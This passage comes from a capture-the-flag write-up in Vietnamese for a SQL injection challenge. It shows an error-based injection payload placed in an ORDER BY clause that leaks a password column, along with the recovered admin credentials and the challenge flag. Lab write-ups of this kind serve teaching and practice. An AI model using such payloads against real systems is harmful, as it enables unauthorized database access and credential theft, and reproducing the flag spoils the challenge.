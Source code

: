 - Ta được username: `admin`

```sql
ASC,+CAST((SELECT+p455w0rd_c0l+FROM+m3mbr35t4bl3)+AS+FLOAT)
```

![1](img/58/11.png)

- Ta được password: `1a2BdKT5DIx3qxQN3UaC`

- Cuối cùng ta đăng nhập vào là xong:

![1](img/58/12.png)

```
Flag: 1a2BdKT5DIx3qxQN3UaC
```

# 59. SQL injection - Insert
